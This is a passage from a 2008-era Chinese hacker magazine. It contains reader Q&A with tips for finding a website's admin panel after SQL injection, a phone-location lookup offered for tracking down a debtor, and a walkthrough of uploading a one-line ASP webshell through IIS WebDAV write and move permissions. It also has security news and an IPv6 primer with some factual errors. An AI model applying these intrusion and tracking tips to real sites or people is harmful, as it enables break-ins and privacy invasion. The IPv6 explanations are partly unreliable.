OD 不要关，打开 ImportREC，选中我们的未脱完的程序，把 OEP 地址写入，点 IAT 自动搜索（如图 5）。

再点“获取输入信息”，最后点“修理抓取文件”，保存好，就 OK 了（如图 6）。
程序运行一切正常。

好了，文章到这里就到了尾声了。本文写得粗糙，可能有什么地方会有些错误，语言不是很精确，还请多多包涵。

> 【本文介绍的相关工具和程序已收录在本期光盘中】

## 编辑点评

第一层壳查不出来，我估计一是作者的 userdb.txt 没及时更新到最新，二是此壳由程序作者处理过，三是这是一个新壳。但无论是哪一点，通过扎实的基础能把第一层壳脱掉。第二层的是北斗壳，基本上脱掉它并不是太难的。另外在到达 004202EE 处的时候，删除分析代码，代码可以显示得更为直观。两层壳都不是太难，希望大家不妨去试试脱壳，可能更能了解这些壳。
08年到来了，Q&A也将迎来新的面貌。比起以往我一个人的独角戏不同，全新的Q&A将会跟大家一起互动。我们非常欢迎读者在论坛提问，同时我们的信箱 qa_nohack@126.com 也24小时为您开通。如果您的问题极具代表性并登上杂志，我们将给您鼓励性的奖励。而最大的创新在于，我们每期将提供有奖问答，挑选比较棘手的难题让读者参与进来。如果您的回答准确到位，我们会为您送上最新的杂志。

**Q：** 求助！QQ上的IP为何ping不通？

我在QQ上看到好友的IP，就想试一下最近学习的成果。之前已经去他家调查过，是电信ADSL宽带，没有登录密码，是个电脑盲，我想应该好入侵才对。为何我ping他QQ上的IP却提示找不到“网络路径”？他应该不会使用代理，又试了几个朋友的IP，依然如此！开始我认为是我电脑本身的问题，又ping了一下百度，却是正常的！！请教一下高手，这是怎么回事？得到了他的真实IP怎么才能ping通？？谢谢~~~小弟不胜感激！

**A：** 一般进行ping连接需要跨越很多跳，只要经过的节点有对ICMP进行了过滤，那么就很容易办到ping不通了。而你ping一些网站的服务器，经过的交换比较少，并且一般服务器都允许ping来回应。现在的很多路由器默认设置都具有防火墙隐私反馈设置，都是不允许经过ICMP的，也就是说默认就禁止了ping回显。其实想入侵他人电脑，实际上需要的是踩点和扫描，ping获取的信息几乎无用。

原文链接：http://www.nohack.cn/bbs/thread-71415-1-1.html

**Q：** 请问一下，只知道手机号，怎么来知道手机号的详细信息，比如地址之类的，能具体到县的。首先说明，现在的移动不止查，好像有点侵犯个人隐私，不过我确实有用，1350765****，这个号现在欠我钱，他的号也欠费200多了。

**A：** 很难得论坛上还能找到关于科技信息查询的提问。如果是简单地寻找市级范围内的号码归属查询，那么可以使用 123cha，或者 ip138 等就能胜任。不过想要得到更多更具体的信息，不妨试一下这个网站提供的手机定位查询：http://lbs.allfast.cn/，虽然查询有局限性，但更可能会给你带来惊喜。

原文链接：http://www.nohack.cn/bbs/thread-71366-1-1.html

**Q：** 最近几天学校里大部分机子都中了一种毒，无法打开任务管理器了！显示一个“任务管理器已被系统管理员停用”。这是什么毒呀？怎么才能清除？

**A：** 先告诉你解除任务管理器的两种方法：

- 1. 在“开始”菜单中的“运行”对话框中输入“gpedit.msc”命令，就会启动“组策略”设置窗口。在组策略窗口中，执行“本地计算机策略→用户配置→管理模板→系统→Ctrl+Alt+Del 选项”命令。在右边的“删除任务管理器”的属性中，设置为“禁用”。
- 2. 修改注册表，或者把下面的内容存成 .reg 文件恢复。

```reg
REGEDIT4
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableTaskmgr"=dword:00000000
```

在使用以上操作后，如果任务管理器仍然无法使用，请注意查杀病毒。可能是病毒自身的进程或者插入的 DLL 屏蔽了任务管理器，强烈建议用 IceSword 这样的工具，做到对进程以及模块都有了解。

原文链接：http://www.nohack.cn/bbs/thread-71385-1-2.html

**Q：** 为什么我的IE不能进网站呢？我把IE打开，然后输入百度的网址，但是没什么反应，其他网页也一样。另外，你打开IE不进行操作，等一段时间它自己就弹出一个窗口，说什么“EXP……”出错，请问怎么修复啊？

**A：** 其实关于IE不能浏览网页的问题，我也遇见过多次。一般来说都是跟DNS解析或者LSP出错有关。不过结合你的情况，也就是打开IE后进程会报错，则很可能是系统文件缺失，导致IE损坏，或者由于病毒感染所引起。建议你用 IceSword 这样的工具查看一下IE进程的 DLL 模块，同时用 SREng 查看一下IE装载的相关文件等。如果类似 TT 这样的基于IE的浏览器仍然无法使用，那么你可以重新安装IE浏览器。相关浏览器无法访问网页的实际案例请参考：http://www.cndw.com/tech/soft/2006042553699.asp

原文链接：http://www.nohack.cn/bbs/thread-71345-1-1.html

**Q：** 网站后台找不到啊？有什么好的扫描器吗？

刚入侵网站，啥都猜对了，可是网站后台找不到啊？有什么好的扫描器吗？怎么办？

**A：** 关于注入得到管理信息后却无法获取网站后台地址的问题，我已经在论坛上看到非常之多了，虽然也有过一次相关回答，但是想想这次新年即将到来，还是先解决众多朋友关心的问题吧！

- 1. 结合相关工具进行扫描：我们可以使用 DOMAIN 或者 啊D 这些工具进行后台地址扫描。虽然是默认地址，但是也不乏有使用这些目录页面的。再高级点的，可以使用 wscan 这样的专用后台扫描工具，结合暴力目录猜解来进行分析。实际上我们平时要有多多收集后台地址的习惯，给自己的工具配合一个强大的字典，这样效率会更高。
- 2. Google Hack 方法：Google 语法很灵活，随便举点例子，site:*** inurl:login，site:*** intext:管理，site:*** intitle:管理。稍懂语法的就知道是根据地址、页面内容和标题来分别进行列举搜索，可以结合自身实例多多进行尝试。
- 3. 源码查找：现在的网站，使用整站代码的系统还是居多。我们根据特定页面或者 powered by 信息等，通过搜索引擎和 secknot 这样的源码类查询，找出该网站使用的脚本系统。除非管理员更改了后台，这样就可以信手拈来了。
- 4. 特定信息查询：灵活查找网站的页面资源，特别是一些新闻类图片的链接，因为很多管理员的后台操作里，图片的存放目录都是在管理目录的下级目录下，特别是 eWebEditor 的自带 upload，多数管理员系统都会直接放到管理页面的目录下。只要举一反三，可以获得很多信息。
- 5. 允许目录浏览：这种情况虽然很少，但是也不得不注意。也就是如果当前目录下没有 index 这些默认脚本，那么允许查看目录的内容，后台也就一目了然了。

我只是根据经验和大家交流获取后台地址的方法，相信很多高手也有他们的小得意和技巧。有时候后台就在眼前大家却视而不见，例如告诉我找 dbo 的权限，那么后台完全可以用列表目录的扩展来寻找。朋友们，忽视的东西可能就是技巧。

原文链接：http://www.nohack.cn/bbs/thread-71037-1-1.html

**Q：** 请教一个问题，十万火急！！！电脑似乎中了维金变种病毒或是U盘杀手病毒，导致系统瘫痪，重装之后依然是“毒影重重”，我该怎么办呢？杀软似乎不管用，即使是升级到最新。

**A：** 就个人经验来看，导致重装系统后却再生的方法无外乎两种：一种就是直接感染 exe 文件，其次就是通过在盘符下建立 autorun 文件去劫持后激活。关于 autorun，只要注意在重新安装系统后，切记不要双击盘符，甚至不要用资源管理器启动，而是直接在地址栏上进行输入，或者直接在“运行”里输入盘符。然后禁用隐藏文件功能后删除 autorun。而感染性的症状，如果不能忍痛删除的话，那么只有利用 WinHex 等工具查看具体的寄生文件，然后利用专门的 PE 知识和编程技巧来完成。其实类似衍生专杀的辅助工具也有不少，不妨尝试一下。

原文链接：http://www.nohack.cn/bbs/thread-71321-1-4.html

## 黑客手册

### 第九安全

中国IT黑客主流技能型杂志 北立人经典网刊项目集 “地下靶场”

### 多元安全

搜索全球前沿信息  
投稿 mail：nohack@21cp.com  
www.nohack.cn  
原生态安全学习  
以实战为主的“白帽圈” 不停前进！

### NOHACK 61

### 高校更响警报

复旦、广大、北理、某大

### 春节专题——超级0day波

- 动网8.1最新漏洞分析和利用
- dvbbs8.X论坛漏洞串烧
- 动网8.1新版后台获取 webshell
- 动网8.1版后台拿 webshell 又一法

### 高手专栏

我在入侵过程中注意到的细节  
入侵中的小技巧一夜

### 洞察技

- 各色小说系统安全漏洞分析与利用
- 乔客 CMS4 新增的一个漏洞
- WAP 建站系统安全分析
- 菜鸟也来学 ActiveX 漏洞挖掘
- Phpbb PHP版注入漏洞分析
- 仅仅是鸡肋？——腾讯的一个 XSS
- 利用一 Windows 配置错误入侵 Linux

## 主动防御 不惧病毒

### XApache

“老虎老鼠傻傻分不清楚，满脸泥土失败的被俘虏……”，随着耳机里响起蔡依林的《野蛮游戏》，2008年，鼠年的春节到啦！这里先向《黑客手册》的新老读者们拜年。希望大家春节愉快，身体健康，安全技术更上一层楼。遥想蔡依林出那张专辑那年，小编工作了，清废长发，把毛毛虫……咦，怎么扯到洗澡了？下面先说正事。

以前看栏首的时候，最期待的是鼠镜锐的文章。因为他太有才了，而且极具搞笑天分，看到他的文章我都会想到QQ表情上的嘻哈猴。呵呵，这次轮到我在扉页写字，真是有点关公面前耍大刀，鲁班门前弄斧头。猴子面前……爬果树的意思（某猴：我的地盘我做主，双截棍刀弄斧爬果树……）。这次可被点名了，不出来写两段的话，老编肯定不会放过我，我就向大家爆一下前段时间的小编打针事件吧！

北京的冬天还是挺冷的，但有些病毒即使暴露在冷空气中，也能保持良好的活性，比如说手里拿着三枝香的熊猫……在单位组织的体检活动中发现自己身上没有某个抗体以后，小编我惨遭某护士大姐一阵威吓，说如果感染上肝炎之类会怎样怎样痛苦，说得我小心肝扑通扑通的。在QQ上看到剑心小编的头像还亮着，于是准备和他聊两句，打了两行字还没来得及发送，就看到剑心的头像一通狂闪，打开一看，居然也是说自己刚体检完，问我去不去打疫苗。好么，两个人看来是同一个情况了。

本来想着国内已经中招的人那么多，也没见有多少人因此挂掉啊，何况不干不净，吃了没病……正在我抱着此类心理懒懒地不想去打针的时候，剑心向我痛述了不打疫苗的后果——“看最近出的《生化危机》没有？不打疫苗可是会变僵尸哦”……“我要是变成僵尸，写稿的就少一个人了啊，还有审稿也会少一个”……“人家杀毒软件都主动防御了，我们不去打个疫苗防御一下，岂不连杀毒软件都不如？”……汗，啥也别说了，去，一起去。

一想到生化危机，我忍不住赶紧拿起镜子照两下，发现没长出獠牙，眼睛没有变成血红色之后，终于放下心来。于是一个刮大风的上午，“黑手”的两个小编戴着墨镜在中关村某处碰面，跑到医院缴完费（这里提醒一下，有体检单的最好带上，免得再检查一次），来到疫苗注射室。打针要把外衣脱掉，我就看着剑心好像岳飞刺字一般坦露出背大肌，一副豪情壮志在我胸的表情。我呆住了。此时此刻，要是扔给剑心一条毛巾，他一定会和范晓萱一样唱道：我爱洗澡皮肤好好，么么么么，带上浴帽蹦蹦跳跳，么么么么……（一脸怒容的剑心：我的光辉形象都被你破坏了！明明是精忠报国，你给我整什么洗澡？！XApache，我要给你打针！）

一团火焰在北京中关村海淀区北四环附近熊熊烧起来，某裸背帅哥手持针管在中关村大街猛追一名善良勇敢的“黑手”小编，后面跟着一辆120拉着警笛追，都跑60迈了，汗……

### 个人感慨

在黑手当了两年多的小编以来，非常喜欢《黑客手册》的创刊文化和杂志氛围；黑客文化本来就是一种需要理解和宽容的东西，而黑手却很好地做到了这一点。也许，比起其他安全类刊物的历史没那么“悠久”；但 NOHACK 可以算是对读者、对作者最贴心的网络安全刊物。正是有了这样的包容力和平常心，《黑客手册》才走到了今天，拥有了这么多爱好者和支持者。

对此，《黑客手册》的所有工作人员心存感激，希望 NOHACK 在2008这个奥运之年，越办越强，越办越大，杂志和读者朋友们的互动越来越多！

## 新闻摘要

当大家拿到本期杂志时，我该给大家拜个早年还是晚年呢？管它的呢，祝看者“猪”去“鼠”来，又是一年啦！过去这期，虽然没啥大事发生，但新玩意还是值得去关注和研究，比如 iPhone 的第一款木马病毒、Windows 蓝屏风波，还有社交网站上的页面攻击等。

### iPhone 第一款木马病毒已经出现

目前黑客们已经创建了针对苹果 iPhone 的第一个特洛伊木马病毒程序，这个病毒伪装成苹果的“重要安全更新”形式，并提示用户说，欲升级至 1.1.3 版本，必须先安装此安全更新。

实际上这个木马病毒的恶搞部分远远大于它的安全威胁。据说安装上这个木马病毒之后会影响到其他应用程序的运行，包括 Erica 应用程序（iPhone 的命令行工具）和 OpenSSH。若是用户选择卸载这个流氓软件包，那么其他应用程序也会被一起删除，这样用户就只能辛苦地为 iPhone 一个一个地重装应用程序。

相关人员表示：“从技术上讲，这是第一个 iPhone 的特洛伊木马病毒，但是实际上它更像是一个恶作剧，而不是真正的威胁。”目前散布这个恶意软件的网站已经关闭，似乎该程序并没有伤害到很多用户；但是还是提醒 iPhone 用户注意，在选择安装软件包的时候仍要保持警惕。

> 小米点评：有相关人员在2007年6月就曝露过，iPhone 容易遭到缓存溢出攻击；这种攻击能够让攻击者注入窃取个人信息的恶意代码。另外，iPhone 被美国《时代》周刊评选为2007年“年度发明”，可想而知以后的流行会是怎样……不管是手机还是病毒……

### 黑客攻破 Myspace 页面，假冒微软更新并发行木马

据悉，美国第一大交友网站 Myspace 的个人资料页面被黑客攻破，他们利用发布微软视频系统更新的名义引诱访问者安装木马程序。不过这种攻击模式还为数不多，也只是发现了少数案例。

用户在访问这些已经被黑客攻破并且修改的个人页面时，将会看到一个类似弹出窗口那样的提示。这一提示称，请安装微软公司最新发布的安全工具“恶意程序移除工具”。一旦用户点击这个所谓的“窗口”，将会下载黑客放置好的木马程序。

其实，用户看到的提示窗口并不是真正的弹出窗口，而是黑客利用网页中的图片模拟的一个窗口，目的就是让访问者误以为这可能是来自微软视频系统的一个标准弹出窗口和信息提醒。相关人员说，这个木马程序的名字叫做“工厂”，已经是一个臭名昭著的木马程序，被网络黑客使用了长达一年多时间。个人页面正在成为一个吸引黑客前来发动攻击的平台。

> 小恶点评：任何元素所涉及的技术越多，那么其受到攻击的目标范围就越广，需要检测和关注的关键点就越多。一旦出现任何问题，操作起来都将是相当地“婆婆妈妈”。当然，无论取舍和反思，都是需要坚持的耐心和技术的！

## 漏洞公告栏

### MS08-001：Windows TCP/IP 中漏洞可远程执行代码

说明：  
此严重安全更新可解决传输控制协议／Internet 协议（TCP/IP）中两个秘密报告的漏洞。成功利用此漏洞的攻击者可以完全控制受影响的系统。攻击者可随后安装程序；查看、更改或删除数据；或者创建拥有完全用户权限的新账户。

这适用于 Windows XP 和 Windows Vista 的所有受支持版本的关键安全更新。还对于 Windows Server 2003 的所有受支持版本是一个重要安全更新，而对于 Microsoft Windows 2000 的所有受支持版本则为中等安全更新，最大安全影响为拒绝服务，其他的操作系统最大安全影响为远程执行代码。

- Microsoft Windows 2000 Service Pack 4
- Windows XP Service Pack 2
- Windows XP Professional x64 Edition / Service Pack 2
- Windows Server 2003 Service Pack 1 / Service Pack 2
- Windows Server 2003 x64 Edition / Service Pack 2
- Windows Server 2003 SP1（用于基于 Itanium 的系统）/ SP2（用于基于 Itanium 的系统）
- Windows Vista / x64 Edition

### Flash 文件存漏洞 上万网站遭威胁

美国国家计算机网络应急技术协调处理中心（US-CERT）向全球计算机用户发出警报，指出 Flash（.swf）文件中存在漏洞，该漏洞允许远程未经认证的入侵者对系统执行跨站脚本攻击。相关人员指出 Flash 制作工具可能产生存在漏洞的 Flash 文件，这其中的 Adobe Acrobat、InfoSoft FusionCharts 和 Techsmith Camtasia 等都存在漏洞，但一些已经被修复。

针对该漏洞的攻击是跨站脚本攻击的一种，攻击者通过注入带有危险的代码运行对应的 SWF 文件，以获取用户 Cookie，进而获取用户权限。

Adobe 公司建议用户更新至最新版本，并指出在 Adobe Flash Player 中已识别出关键的漏洞，这使得成功利用这些潜在漏洞的攻击者能够控制受影响的系统。攻击者要利用这些潜在漏洞，必须由用户在 Flash Player 中加载恶意 SWF。建议用户将 Flash Player 更新至他们平台可用的最新版本。

### 苹果有“洞”，QuickTime 负责！

美国苹果公司的 QuickTime 多媒体引擎近期被曝存在缓冲区溢出漏洞，并同时影响到苹果 Mac OS X 和微软视窗操作系统的用户。由于苹果 QuickTime 引擎之上运行着许多播放器等软件，因此 QuickTime 播放器以及 iTunes 播放器也受到了影响。

这一漏洞发生在 QuickTime 引擎处理 RTSP 消息的过程中！如果黑客恶意制造了一段响应消息，QuickTime 将会出现内存溢出。这样，受影响的电脑将可以运行黑客程序，安全将面临严重威胁。而且，网上已经出现了利用这一漏洞发起攻击的概念代码。

相关人员给出了多个解决问题的方案，比如暂时卸载 QuickTime 多媒体平台软件、封堵 RTSP 协议，以及阻止在网络浏览器中运行 QuickTime 插件等。总之，上网还是谨慎为妙，任何操作都要三思而后行！

## 内马瘟花

> 内马瘟节拢窗  
空闲寂寞年快乐，小编给楼下亲爱的花儿们的兄弟们拜年啦！也期盼大家准备的桃花朵朵旺上大收满仓，样样好！想想这次编辑这文，不作什么废话不也是好么不？本期我努力了，继续来延上期的搬砂心得，居然要来给兄弟们分析分析写权限。激赞了上期的看官们可是受宠着听坏了，本台《黑客手册》的实用性继续，再想让《黑客手册》涂鸦本。

## 深入剖析 IIS 与权限

从本文中你可以学到：

- 哪些 IIS 配置造成了网站可写漏洞

不知道题目“深入”一词用得恰不恰当？我也只是在自己的实验上总结出来的几点，大家看了如有什么错误可以指出来，一起讨论！

如果大家看了上一期的《黑客手册》的内容接龙，就会发现有时候，用 IISPUTSCAN 扫出来可写的网站，我们并不一定能够拿到 SHELL，这是为什么呢？我们还得从网站的配置说起，一起看站点配置会导致些什么样的结果。

一般情况下，当我们建立一个网站时，默认的情况是这样的，如图1。

通过图1可以看出：默认情况下，“脚本资源访问”和“写入”是没有打上钩的。好，我们现在来实验下，用扫描器扫描的结果如图2。

并没有显示出红颜色的标志，也就是说不可写！好，我们先把“写入”打上钩，再来扫一下，如图3。

出现了可写的标志了，我们来利用工具传一个一句话马试试，先传个 TXT 格式的，如图4，返回正常！我们再把它 move 成 asp 格式的，这样我们就可以得到一句话的 SHELL 了，可是返回的信息却是这样，如图5。

这样的话，我们就无法把 txt 格式的改成 asp 了，也就是我们经常遇到的很郁闷的情况。那么为什么我们有权限上传文件却无法 MOVE 呢？这又得回到 IIS 的配置问题上了，大家看图1。

中的几个属性，是不是都猜到了和“脚本资源访问”有关呢？我们再试试，把它也钩上！再来重复前面的动作，如图6。

成功改成 asp 格式的后缀文件了。也就是说，当我们看到如下返回信息的时候：

```http
HTTP/1.1 207 Multi-Status
Date: Sat, 29 Dec 2007 13:14:23 GMT
Server: Microsoft-IIS/6.0
Content-Type: text/xml
Transfer-Encoding: chunked

b6
<?xml version="1.0"?><a:multistatus xmlns:a="DAV:"><a:response><a:href>http://192.168.1.252/shell.asp</a:href><a:status>HTTP/1.1 403 Forbidden</a:status></a:response></a:multistatus>
0


```
我们遇到的网站可能就是因为 IIS 设置的问题而无法让我们得手。我们只是讨论了为什么会出现这两种情况的原因。而这个 IIS 写权限的挖掘就真的到此为止了么？不对，通过我的思考发现了还是有点乐趣的。我们知道，一个服务器大多数情况下都绑定了其它的域名，而每个网站对应的 IIS 又是单独的！有没有这种可能，那就是管理员的疏忽而导致有些网站的设置不严格呢？怎么说呢？我们继续实验下，这里我建立了两个网站，都是同一个 IP：192.168.1.252。我们这样对它们配置，如图7、图8。
毫无疑问，其中一个站点会轻易被我们拿到 shell，如图9、10 的扫描结果。

大家注意端口的不同。看到这里大家是不是有点了解了呢？

还有一点值得一提的是通过 IIS 写权限挂马的问题。小组的 VINI5 同学做了一个动画出来了，但是我却无法通过虚拟机来模拟他的结果，也就是说通过修改 css、js 文件的内容来书写马的时候也没有权限！大家如果想要了解的，可以到 www.slenk.net 观看他的动画！

## 总结

这其实和运行的程序没什么关系，只是 IIS 配置不当引起的！只能说小失误，大问题呀！

## 编辑点评

上述篇文章的目的在于想让新手朋友了解不当的 IIS 设置会造成怎样的后果，哪些设置导致了哪些问题。在现在网络安全形势严峻的大环境下，虽然大部分软件的默认设置都是相对安全的，但要完全为我所用，你最好还是要了解每一个选项的作用，这样才能拥有既安全又高效的应用。

## 菜鸟必修课之精通 IP 地址（下）

从本文你可以学到：

- IPV6 地址的相关知识

在上一期的杂志中，我们复习了 IPv4 的相关知识，现在，就让我们一起来揭开 IPv6 神秘的面纱。

## 第二部分：熟悉 IPV6

## 一、IPV6 的认识误区暨基础知识

很多人都以为使用了 IPV6 之后，就不能再获得 IPV4 地址，而将获得全新的 IPV6 地址，而且在不久的将来也许会淘汰 IPV4，那时将全部用 IPV6 地址。**IPV6 又叫 IPng（IP Next Generation）**，即下一代的 IP。在 IPV4 中我们用 32 位二进制来表示 IP 地址，而 IPV6 则使用 **128 位**二进制来表示 IP 地址。IPV4 面临地址紧缺问题，但 IPV6 却不存在这个问题，因为 IPV6 的实际有效地址数为 340282366920938463374607431768211456，约为 3.4 × 10^38，IPV4 中约为 4.3 × 10^9，有点吓人吧，这么大的地址空间永远也不可能分配完，哪怕地球上到处都是计算机。

在 IPV6 中将主机和路由器（网关）一律看作结点对待，把它们的地址称为结点地址。IPV6 的地址分类和 IPV4 不同，它不是按 A 类、B 类这样来分的，IPV6 的地址分类比较复杂，比如在 IPV6 中没有再提广播地址了，而是用单播、多播和组播来区分。接口地址又分为全球地址、全球单播地址、区域地址等十几种地址，这里我们没有必要去记住这么复杂的分类。由于 IPV6 地址空间巨大，所以没有必要再使用 DHCP 来分配 IP 地址（前提是不存在私有地址的情况下），也没有必要再使用 NAT 来进行全局地址翻译。

一种协议类似于 IPV4 中的 ICMP（ping），但在 IPV6 中叫做 **ICMPV6**（ping6）。在 IPV4 中对于 DNS 解析我们知道有两种方式，第一种称为正向解析，即把域名解析为 IP 地址。第二种称为反向解析，记为“PTR”，即把 IP 地址反解析为域名地址，通常在配置 DNS 解析时只需配置正向解析即可，在 IPV6 中同样有正向解析和反向解析，只是在解析上有点差别。

**正向解析：**在 IPV4 中使用 A 记录解析方式（大小写不区分），大家可以在 DNS 配置文件中看到，比如某条记录为“www.xxx.com IN A 202.100.10.5”，表示该域名对应的 IP 地址为 202.100.10.5。在 IPV6 中采用 **AAAA 和 A6** 解析方式。对于 AAAA 方式，它与 A 是兼容的，因为它刚好是 A 的 4 倍，正如 IPV6 空间为 IPV4 的 4 倍一样，所以只需把 A 替换为 AAAA 即可，但 IP 为 IPV6 地址，如上面可以写为“www.xxx.com IN AAAA ::202.100.10.5”，这里采用的是兼容的写法，实际上这里的 IP 应该类似于这样的形式 11AA:22BB:33CC::2A2B，这是采用 IPV6 的编址方案得出来的，这个过程比较复杂。A6 是 IPV6 的专用解析方式，与 A 方式不兼容，它把一个 IPV6 地址与多个 A6 记录建立关联，每个 A6 记录只包含 IPV6 地址的一部分，所以要将其加起来才能形成完整的 IPV6 地址。

## 二、IPV6 的安全性

在 Windows 上大家对 IPSec 一定不陌生，IPSec 顾名思义就是 IP 安全协议。单纯的 IPSec 工作在 TCP/IP 的网络层，即它只能对 IP 地址进行过滤，但实际上 IPSec 是集成了传输层的功能的。由于传输层有 TCP 和 UDP 两种重要的协议，所以此时集成的 IPSec 能对 IP 地址、协议（不止 TCP 和 UDP 两种）、端口号进行过滤，但 IPSec 不能对应用层进行过滤，即不能对应用程序进行过滤，这些区别大家要引起注意。

在 IPV4 中 IPSec 为可选项，用户可根据实际情况配置，但在 IPV6 中 IPSec 为必选项，里面内嵌了常用的 IPSec 安全策略。IPSec 会对到来的数据进行严格的过滤，可以使 VPN 连接变得更加安全，可见 IPV6 的安全在 IPV4 基础上有了明显的提升，如图 1 为 IPSec 的连接过程。
## 三、IPV6 地址的表示方法

在 IPV4 中我们用点分十进制来表示 IP 地址，由于在 IPV6 中地址格数太长了，用起来比较麻烦，于是采用 8 组分十六进制格式，并以 16 位为一组进行分离。比如 IP 地址 192.168.1.5.0.0.0.0.0.0.0.0.192.168.1.6 可以记为 C0A8:0105:0000:0000:0000:0000:C0A8:0106，每 16 位中的左边的 0 可以缩写，如这里 0105 可以写为 105，全 0 可以写为一个 0，如这里 0000 写为 0。在 IPV6 中我们可以采用压缩法来压缩连续的若干个 0，但只能压缩一次，不然就会产生二义性，如这里采用压缩后就变为 C0A8:105::C0A8:106，即连续的 0 用两个冒号来代替。

IPV6 也支持 IPV4 的 CIDR 表示法，如 IPV6 地址 11AA:0:0:22AA:0:0:0:0 用 50 位作为前缀表示的话，则写为 11AA::22AA:0:0:0:0/50 或 11AA.0.0.22AA::/50。在 IPV6 中不再使用网络号和子网号来划分地址，而是采用一种分等级结构来划分 IP 地址。

## 四、IPV6 的地址解析问题

对于 IP 地址的解析，在 IPV4 中可以使用 ARP 和 RARP，但在 IPV6 中不再使用此协议解析。由于在 IPV6 中的计算机和路由器称为结点，所以 IPV6 使用了一种邻站发现协议来解析地址，这种协议类似于 IPV4 中的 ICMP（ping），但在 IPV6 中叫做 ICMPV6（ping6）。

**反向解析：**在 IPV4 中用 PTR（一种采用指针方式的反向解析），如果在 DNS 中配置了反向解析则可在配置文件中找到。在 IPV6 中有两种方式，第一种为点分半字节的十六进制方式，低位地址在前面，高位地址在后面，域后缀要加 IP6.INT，如 ABCD::0123:0ABC:AABB 反向解析应为 B.B.A.A.C.B.A.0.3.2.1.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.D.C.B.A.IP6.INT。第二种为二进制格式，以 [ 开头，以 ] 结尾，域后缀要加 IP6.ARPA，表示要转化为二进制形式，如上面为 [10101011…（省略）…10111011].IP6.ARPA。

## 五、IPV4 与 IPV6 的过渡问题

现在我们仍使用 IPV4，不久以后就将使用 IPV6。虽然现在已经在使用 IPV6，但要实现 IPV4 与 IPV6 通信，必然要有一个过渡。全球核心路由器要多么统一地使用 IPV6，势必会导致全球断网，造成巨大的损失。通常可以采用 3 种过渡方式。

- 1. 双协议技术：就是同时具有 IPV4 与 IPV6 两种协议，与 IPV4 通信时用 IPV4 协议，反之则用 IPV6 协议。
- 2. 隧道技术：当 IPV6 网络中的数据经过 IPV4 网络时，把 IPV6 数据封装成 IPV4，然后以 IPV4 作为隧道传输到目的地，最后将 IPV4 解封装成 IPV6 数据即可。
- 3. 翻译器技术：用翻译器来对协议进行翻译，跟 IPV4 通信时翻译成 IPV4 协议，与 IPV6 通信时翻译成 IPV6 协议。它们的原理如图 2。
## 六、IPV4 与 IPV6 地址的关系

严格地讲，我们使用广泛的 IPV4 地址应叫 IPV4 单播地址，因为广播、多播这样的地址我们几乎没有直接用到。在 IPV6 中叫 IPV6 单播地址，以防省略单播二字。IPV6 中没有广播，广播的作用由组播来实现，IPV6 中也没有子网掩码。IPV6 中地址使用“地址/前缀”这样的记法，IPV6 使用 64 位前缀地址作为单播，后 64 位作为接口标识符（相当于 IPV4 中接口对应的 IP 地址），但 IPV4 只有 32 位，那如何和 IPV6 对应呢？这使用映射地址或兼容地址就可以办到。

但 MAC 地址为 48 位，那又如何解决？我们只需在 MAC 地址的第 3 和第 4 字节之间插入 0xFFFE 即可解决。比如：一个 MAC 地址为 0A-AA-BB-CC-AB-0A，则插入后为 0A-AA-BB-FF-FE-CC-AB-0A，此时它的链路本地地址（下面要讲）为 FE80::AAAA:BBFF:FECC:AB0A，但我在操作时出了点问题，如图 3。
图3 IP信息

从图 3 中可知该地址为 FE80::250:56FF:FEC0:87，对吧？那为什么 50 要用 250 表示呢？这个问题我想了很久，但问题终究是要被解决的，下面我来分析。这里需要把开头的 02 写为二进制，即 00000010，第 7 个位我用 X 表示，现在问题清楚了，这里的 X 表示 G/L 位（它也可用 U 表示，用来表示全局/本地地址），当 X 取 1 时为本地地址，当 X 取 0 时为全局地址，所以这里应为 250。因为以 FEC0 开头的地址都是本地地址。从图 3 中你应该发现 IPV6 是没有子网掩码的。

## 七、IPV6 中的特殊地址

IPV6 中有两个地址比较特殊，第一个是 0:0:0:0:0:0:0:0（简写为 ::），类似于 IPV4 中的 0.0.0.0，在 IPV6 中这个地址不能使用。第二个是 0:0:0:0:0:0:0:1（简写为 ::1），它是本地环回地址，和 IPV4 中的 127.0.0.1 概念完全一样，功能也一样。

## 八、IPV6 中的本地地址

和 IPV4 一样，IPV6 也有本地地址，即私有地址。因为 IPV4 要和 IPV6 共存，理当应有私有地址，也许当世界上都使用 IPV6 时，私有地址才会被淘汰。

- 1. **链路本地地址**

它以 1111111010 开头，用前缀表示为 FE80::/64，类似于 192.168.0.0/16 这种形式的地址。这种地址是可以自动被配置的，在内网中都使用此前缀开头的地址，你可以用 ipconfig 看一下，图 3 也说明了这一点。既然是私有地址，那肯定是不能访问外网的，要出外网必须经过 IPV6 路由器，为此必须设置默认网关，这里并不需要使用 NAT。

- 2. **站点本地地址**

它以 1111111011 开头，用前缀表示为 FEC0::/48。你会发现前缀少了 16 位，那这 16 位用来做什么呢？这 16 位被称为子标识符，作用是用来划分子网，类似于 IPV4 中的子网划分。它既然叫站点地址，当然就可以把一个站点划分成多个子站点，16 位可以划分 65536（2^16）个子网，这些子网可以归一个站点管理。这种地址是不能被自动配置的，但通过 DHCP 应该是能被配置的，不过 DHCP 还有很多草案，并不成熟，只有以后才知道了。

## 九、IPV6 中的全局地址

它以 001 开头，只要是以它开头的 IPV6 地址都是全局地址，它的前缀不唯一，类似于 IPV4 中的公网 IP。对于拨号连接上网，一般都能获得以此开头的地址，它的分类很多，有顶级和地址级划分。如果你是拨号上网，可以安装 IPV6 后，用 ipconfig /all 看一下。由于环境原因，我这里不方便截图了，当然也可能不是以 001 开头的，如果你发现有问题可以和我讨论。

## 十、IPV6 中的过渡地址

- 1. **IPV4 兼容的 IPV6 地址**

它的前 96 位全为 0，后 32 位为 IPV4 地址，表示为 0:0:0:0:0:0:A.B.C.D，简写为 ::A.B.C.D，比如“::202.100.10.5”就是一个 IPV4 兼容的 IPV6 地址，但这个 IPV4 地址必须是全局地址才行，私有地址不行。我们先用命令 `netsh interface ipv6 set state v4compatible=enabled` 来开启 IPV4 兼容 IPV6 地址，现在来 Ping 一个私有 IP，结果会 ping 不通，如图 4。

- 2. **IPV4 映射的 IPV6 地址**

它的前 80 位全为 0，接着 16 位为 FFFF，最后 32 位为 IPV4 地址，表示为 0:0:0:0:0:FFFF:A.B.C.D，简写为 ::FFFF:A.B.C.D，比如 ::FFFF:202.100.100.20 就是一个 IPV4 映射的 IPV6 地址，它只能用于内部网络，即内网，但几乎不使用它。我在测试时也没有测试成功，在 netsh 命令中也没找到它的设置命令，真是郁闷。
图4 无法 ping

